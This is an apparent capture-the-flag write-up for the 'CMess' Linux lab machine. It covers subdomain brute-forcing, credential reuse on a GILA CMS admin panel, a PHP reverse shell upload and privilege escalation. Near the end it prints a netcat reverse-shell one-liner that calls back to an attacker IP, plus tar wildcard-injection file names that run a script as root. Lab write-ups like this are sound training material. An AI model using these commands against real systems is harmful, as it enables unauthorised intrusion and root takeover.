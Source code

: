 ## CMess
### OS = LINUX
### DIFFICULTY = MEDIUM

#### nmap scan
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8bd8e60b-d4a1-44c0-b81b-258334a1a04a)

we have 2 open ports

let's start our enumeration from port 80

going over to the web page shows that it is running GILA cms

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/cf983be5-438e-4287-88dc-0ca136cafe3f)

so, let's add the domain "cmess.thm" to our /etc/hosts file

Then bruteforcing subdomains using ffuf gives this

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/f313a0bf-71c3-4343-83d5-c49bc8248bbc)

which shows that there is subdomain "dev.cmess.thm"

Also add the subdomain to the /etc/hosts file too

let's go over to the web we have some creds which you can see below
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/061713fc-1194-40d4-8d11-72ff242bccaa)

so, let's try the credential on the admin login page 

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/ca8084ad-7b89-4c18-a839-6f3837e1fa08)

wow it works and we can see the GILA CMS version
so, moving on to the content page on the dashboard for us to upload a reverse shell script in the file manager
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/41f5c718-cab6-4e97-9f97-7916bf6123d2)
so we're able to upload a php reverse shell
And set ur ncat listener then visit the assets directory to load the uploaded shell
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e84cd810-3054-4a73-981c-fca53b24de0e)

it spawned us a shell on the target system

we have our sweet reverse shell. so, stabilize it
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c3f9e157-3537-45e9-a1d4-35b28bc19cc8)
 so, we can see our privilege is limited
 let's try escalating privilege
   ## Privilege escalation

   Uploading linpeas on the box 
   we found a password file at the /opt dir
   it contains the password for user "andre"
   ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e547fd57-3b7e-468b-bcbe-4d71204d83ca)

 so sshing into the server using the username and password
 we're able to read the user flag now
 ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c95df228-8832-4e61-8115-9639ab8bdc81)

 Okay, so from this we know that there's a backup service running on the server, we can also see this from the linpeas report, and we also found the backed up file in the /tmp folder earlier when we were looking for user priv-esc. We can in fact see the exact command that is being run when the backup happens .
```  */2 * * * * root cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz * ```
 There's a way to exploit tar if it uses wildcards, there is more info on it in this article ![link](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
) .

The name of the attack is Wildcard injection, and it's a way to make tar run an executable for us. Since the backup service is running as root, if we make this executable a reverse shell, then we got ourselves a root shell. 
set your netcat listener.

1. echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.3.145 1337 >/tmp/f" > shell.sh
2. echo ""> "--checkpoint-action=exec=sh shell.sh"
3. echo ""> --checkpoint=1
   
And we are root lol ;)
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a012c48a-9f56-4d95-ad31-b57caef3835b)

Thanks hope you had fun!
For any enquiries shoot me a dm on twitter @ ![link](https://twitter.co/0x_venus)










